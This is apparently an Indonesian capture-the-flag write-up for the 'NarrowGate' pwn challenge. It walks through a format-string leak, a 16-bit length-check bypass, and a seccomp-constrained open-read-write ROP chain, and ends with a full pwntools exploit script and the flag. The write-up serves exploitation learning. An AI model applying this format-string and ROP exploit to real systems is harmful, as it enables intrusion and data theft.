

# NarrowGate - Pwn (320 pts)

**Author:** Kesatria Baja Ringan
**Kategori:** Pwn

## Deskripsi

> NarrowGate adalah layanan pembaca block minimal dengan sandbox runtime yang ketat. Tidak semua yang terlihat sudah divalidasi benar-benar aman.
> Service meminta nickname, lalu meminta ukuran block, dan membaca block tersebut ke buffer stack berukuran tetap. Format string bug dan bypass validasi 16-bit sudah cukup untuk melewati gate ini.

Dikasih file `narrowgate`, `libc.so.6`, sama `ld-linux-x86-64.so.2`. Connect ke `nc s1.nfx.my.id 48345`.

## Recon awal

Cek proteksi binary dulu pakai pwntools:

```
Arch:       amd64-64-little
RELRO:      Full RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Full protection semua nyala, jadi butuh leak canary + base buat ROP, gak bisa asal overflow aja. Binary gak di-strip jadi gampang baca nama fungsinya.

Disassemble, alurnya kira-kira gini:

1. `leaker()` - minta nickname, baca ke buffer `rbp-0xb0` (176 byte) pake `fgets`, terus langsung di-`printf(buf)` tanpa format specifier. Ini classic format string bug.
2. Balik ke `main()`, minta "ukuran block" 4 byte, divalidasi, terus baca block ke buffer `rbp-0x50` di stack.

## Bug #1 - Format string di leaker()

```c
printf(buf); // buf = input nickname, full attacker controlled
```

Gak ada format string literal, jadi bisa masukin `%p`, `%n`, dsb langsung dari nickname. Dipake buat leak:

- canary
- base libc
- base binary (PIE)
- saved rbp main() (biar tau alamat buffer overflow di main tanpa perlu brute force lagi)

Nemu offset-offsetnya pake gdb, breakpoint pas sebelum `call printf`, terus bandingin isi stack sama alamat yg diketahui (rbp leaker, rbp main, dll). Ketemu:

| offset | isinya |
|---|---|
| `%21$p` | pointer ke dalam libc (base + 0x80f6a) |
| `%27$p` | stack canary |
| `%28$p` | saved rbp main() |
| `%29$p` | return address leaker() balik ke main() (base binary + 0x154b) |

Satu request format string udah cukup buat dapet semuanya:

```
%21$p.%27$p.%28$p.%29$p
```

## Bug #2 - Bypass validasi 16-bit

Setelah leaker() selesai, main() minta ukuran block (4 byte, attacker controlled), terus divalidasi gini (disassembly-nya):

```
eax = size
eax = eax << 6
eax = eax - 1
cmp ax, 0x3f      ; <-- cuma cek 16 bit bawah!
jbe  lanjut
```

Tapi pas baca block beneran, dipake `eax` full 32 bit:

```
eax = size
eax = eax << 6     ; dipake penuh buat read(), gak dipotong
read(0, buf, eax)
```

Jadi validasinya lemah: yang dicek cuma 16 bit bawah dari `(size << 6) - 1`, padahal yang dipake buat `read()` itu nilai 32 bit penuhnya. Tinggal cari `size` yang bikin low 16 bit-nya lolos tapi nilai aslinya gede.

Syaratnya: `size % 1024 == 1`. Pake `size = 1025` → lolos validasi, tapi `read()` beneran ngasih kapasitas `1025 * 64 = 65600` byte ke buffer stack yang cuma dialokasiin 0x50 (80) byte. Stack buffer overflow lebar banget, cukup buat ROP chain gede.

## Hambatan: seccomp

Binary ini pake seccomp filter, cek lewat disassembly bagian `prctl`/BPF. Syscall yang diizinin cuma:

```
read, write, open, close, lseek, fstat, newfstatat, brk, exit, exit_group, getrandom
```

Gak ada `execve`, gak ada `mmap`/`mprotect`. Jadi shellcode / ret2libc system("/bin/sh") classic gak bisa dipake. Harus pake open-read-write (ORW) chain buat baca flag langsung lewat syscall.

## Nyusun exploit

Layout buffer overflow di `main()`:

```
[72 byte padding][8 byte canary][8 byte saved rbp][return address -> ROP chain]
```

Gadget yang dipake (dari `libc.so.6` yang dikasih panitia):

```
pop rdi ; ret        0x2a3e5
pop rsi ; ret         0x2be51
pop rdx ; pop r12 ; ret   0x11f327
pop rax ; ret         0x45eb0
syscall ; ret         0x912d6
```

ROP chain per kandidat path flag:

1. `open(path, O_RDONLY, 0)`
2. `read(fd, scratch, 0x200)` - fd diambil dari `rax` hasil `open()`, dipindah ke `rdi` pake gadget `xchg edi, eax ; ret` biar gak hardcode fd
3. `write(1, scratch, 0x200)`

Diulang buat beberapa kandidat path sekaligus dalam satu koneksi, ditutup `exit(0)`.

## Masalah pas nembak remote

Awalnya chain-nya gede (±1900 byte, nyoba 7 kandidat path sekaligus) dan **selalu gagal di remote** padahal lokal selalu sukses. Ternyata ini TCP short-read: binary cuma panggil `read()` **sekali** buat seluruh overflow, gak di-loop. Kalau payload kepecah jadi beberapa segmen TCP dan `read()` keburu return duluan sebelum semua data nyampe, return address gak ke-overwrite dengan bener, program keluar normal tanpa output.

Fix-nya: perkecil payload drastis (1-4 kandidat path per run, ±400-1100 byte) biar muat dalam satu segmen TCP dan gak kepotong.

## Exploit final

```python
#!/usr/bin/env python3
from pwn import *
import sys, re, time

context.clear(arch='amd64')
context.log_level = 'info'

HOST = 's1.nfx.my.id'
PORT = 43392

_positional = [a for a in sys.argv[1:] if not a.startswith('--')]
FLAG_CANDIDATES = [a.encode() for a in _positional] or [
    b"flag.txt", b"/flag", b"/home/ctf/flag.txt", b"/challenge/flag.txt",
]

elf  = ELF('./narrowgate')
libc = ELF('./libc.so.6')

LIBC_LEAK_OFF  = 0x80f6a
PIE_LEAK_OFF   = 0x154b

POP_RDI, POP_RSI, POP_RDX_R12 = 0x2a3e5, 0x2be51, 0x11f327
POP_RAX, XCHG_EDI_EAX, SYSCALL_RET = 0x45eb0, 0x164f5e, 0x912d6

def leak():
    p = remote(HOST, PORT)
    p.recvuntil(b'name> ')
    p.sendline(b'%21$p.%27$p.%28$p.%29$p')
    p.recvuntil(b'hello, ')
    libc_leak, canary, main_rbp, pie_leak = [int(x, 16) for x in p.recvline().strip().decode().split('.')]
    libc_base = libc_leak - LIBC_LEAK_OFF
    main_buf  = main_rbp - 0x50
    return p, libc_base, canary, main_buf

def orw_block(libc_base, path_addr, scratch):
    pop_rdi, pop_rsi = libc_base+POP_RDI, libc_base+POP_RSI
    pop_rdx = libc_base+POP_RDX_R12
    pop_rax, xchg, sc = libc_base+POP_RAX, libc_base+XCHG_EDI_EAX, libc_base+SYSCALL_RET
    b  = p64(pop_rdi)+p64(path_addr)+p64(pop_rsi)+p64(0)+p64(pop_rdx)+p64(0)+p64(0)
    b += p64(pop_rax)+p64(2)+p64(sc)                       # open()
    b += p64(xchg)                                         # rdi = fd
    b += p64(pop_rsi)+p64(scratch)+p64(pop_rdx)+p64(0x200)+p64(0)
    b += p64(pop_rax)+p64(0)+p64(sc)                       # read()
    b += p64(pop_rdi)+p64(1)+p64(pop_rsi)+p64(scratch)+p64(pop_rdx)+p64(0x200)+p64(0)
    b += p64(pop_rax)+p64(1)+p64(sc)                       # write()
    return b

def build_rop(libc_base, main_buf, paths):
    pop_rdi, pop_rax, sc = libc_base+POP_RDI, libc_base+POP_RAX, libc_base+SYSCALL_RET
    block_len = len(orw_block(libc_base, 0, 0))
    exit_chain = p64(pop_rdi)+p64(0)+p64(pop_rax)+p64(60)+p64(sc)
    chain_len = block_len*len(paths) + len(exit_chain)
    strings_start = main_buf + 88 + chain_len
    path_strs, offsets = b'', []
    for pth in paths:
        offsets.append(len(path_strs))
        path_strs += pth + b'\x00'
    scratch = strings_start + len(path_strs) + 0x100
    chain = b''.join(orw_block(libc_base, strings_start+off, scratch) for off in offsets) + exit_chain
    return chain, path_strs

p, libc_base, canary, main_buf = leak()
chain, strs = build_rop(libc_base, main_buf, FLAG_CANDIDATES)
payload = b'A'*72 + p64(canary) + b'B'*8 + chain + strs

p.recvuntil(b'blocks(4 bytes)> ')
p.send(p32(1025))           # size % 1024 == 1 -> lolos validasi 16-bit
time.sleep(0.15)
p.send(payload)

data = p.recvall(timeout=6)
flag = re.findall(rb'NFX\{[^}]+\}', data)
print(flag[0].decode() if flag else data)
```

## Flag

```
NFX{ex3cve_d3ni3d_but_0pen_r34d_writ3_s4v3d_th3_day}
```


